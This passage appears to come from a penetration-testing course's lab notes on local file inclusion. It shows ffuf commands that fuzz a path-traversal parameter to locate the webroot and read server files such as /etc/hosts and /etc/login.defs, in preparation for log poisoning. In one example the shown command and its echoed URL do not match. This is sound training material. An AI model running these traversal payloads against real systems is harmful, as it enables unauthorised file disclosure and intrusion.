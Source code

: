 The following is an example of how we can do all of this with ffuf:

```shell-session
alakin2504@htb[/htb]$ ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287

...SNIP...

: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/var/www/html/          [Status: 200, Size: 0, Words: 1, Lines: 1]
```

As we can see, the scan did indeed identify the correct webroot path at (`/var/www/html/`). We may also use the same [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist we used earlier, as it also contains various payloads that may reveal the webroot. If this does not help us in identifying the webroot, then our best choice would be to read the server configurations, as they tend to contain the webroot and other important information, as we'll see next.

#### Server Logs/Configurations

As we have seen in the previous section, we need to be able to identify the correct logs directory to be able to perform the log poisoning attacks we discussed. Furthermore, as we just discussed, we may also need to read the server configurations to be able to identify the server webroot path and other important information (like the logs path!).

To do so, we may also use the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, as it contains many of the server logs and configuration paths we may be interested in. If we wanted a more precise scan, we can use this [wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) or this [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows), though they are not part of `seclists`, so we need to download them first. Let's try the Linux wordlist against our LFI vulnerability, and see what we get:


```shell-session
alakin2504@htb[/htb]$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://83.136.252.66:34174/ilf_admin/index.php?log=FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ
 :: Wordlist         : FUZZ: ./LFI-WordList-Linux
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
/etc/login.defs         [Status: 200, Size: 12837, Words: 2271, Lines: 406]
```